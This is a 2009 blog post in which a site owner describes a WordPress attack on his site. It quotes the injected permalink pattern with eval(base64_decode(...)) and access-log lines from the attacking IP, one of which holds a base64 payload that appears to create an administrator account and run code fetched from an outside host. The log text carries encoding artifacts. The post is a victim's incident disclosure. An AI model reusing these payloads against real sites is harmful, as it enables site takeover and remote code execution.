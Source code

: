 ```yaml
---
layout: post
title: Wordpress Hacker This Morning.
comments: true
categories:
- Site News
---
```

I hate hackers - they are stupid (mostly) and generally not real productive at actually accomplishing anything except breaking things and causing unnecessary extra work for those that actually contribute to society.

Anyway I am sorry to all of the people that could not get to my site this morning. A wave of Wordpress attacks hit not only me but a ton of Wordpress sites all over the place - just googleÂ /%&amp;({${eval(base64_decode($_SERVER[HTTP_EXECCODE]))}}|.+)&amp;%/ if you want to see a bunch of them yourself (yep google already indexed them)

Anyway the attack appears to be coming from IP address 122.135.85.220. I just finished firing up a new virtual server with pristine code/data for all of you out there and am just starting to run this down. If anyone wants to help you have the source IP and this looks like the exploit used but I am still researching the entire sequence of events from my logs. It maybe that this is all there is to it but I want to be thorough.

Here is what I believe to be the hack:

<code>
48195 122.135.85.220 - - [04/Sep/2009:04:53:21 -0400] "GET /wp-login.php HTTP/1. Â  Â  Â 1" 200 1948 "http://photo.rwboyer.com/" "Mozilla/5.0 (Windows; U; Windows</code>

<code>NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"48196 122.135.85.220 - - [04/Sep/2009:04:53:24 -0400] "POST /wp-login.php HTTP/1 Â  Â  Â .1" 302 - "http://photo.rwboyer.com/wp-login.php" "Mozilla/5.0 (Windows; U

; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"48197 122.135.85.220 - - [04/Sep/2009:04:53:28 -0400] "GET /wp-admin/ HTTP/1.1"

200 34669 "http://photo.rwboyer.com/wp-login.php" "Mozilla/5.0 (Windows; U Â  Â  Â ; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"

48198 122.135.85.220 - - [04/Sep/2009:04:53:34 -0400] "GET /wp-admin//options-pe Â  Â  Â rmalink.php HTTP/1.1" 200 15153 "http://photo.rwboyer.com/wp-admin//option Â  Â  Â s-permalink.php" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7)

</code>

<code>Gecko/20040803 Firefox/0.9.3"48199 122.135.85.220 - - [04/Sep/2009:04:53:37 -0400] "POST /wp-admin//options-p Â  Â  Â ermalink.php HTTP/1.1" 200 15312 "http://photo.rwboyer.com/wp-admin//optio Â  Â  Â ns-permalink.php" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7) Â  Â  Â  Gecko/20040803 Firefox/0.9.3"48200 122.135.85.220 - - [04/Sep/2009:04:53:41 -0400] "POST /xmlrpc.php HTTP/1.1 Â  Â  Â " 200 173 "JHJvbGU9J2FkbWluaXN0cmF0b3InOyR1c2VyX2xvZ2luPSdKZXJhbXlEZWNrNzk Â  Â  Â nOyR1c2VyX3Bhc3M9J09nck8hSTMkTGQhISc7ZXZhbChmaWxlX2dldF9jb250ZW50cygnaHR0c Â  Â  Â DovL2xpbmtzLndlYndvcmRwcmVzcy5jbi9kYXRhL3Nob3J0cGFydDIudHh0JykpO2V4aXQ7" " Â  Â  Â Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Fir Â  Â  Â efox/0.9.3"
</code>
RB
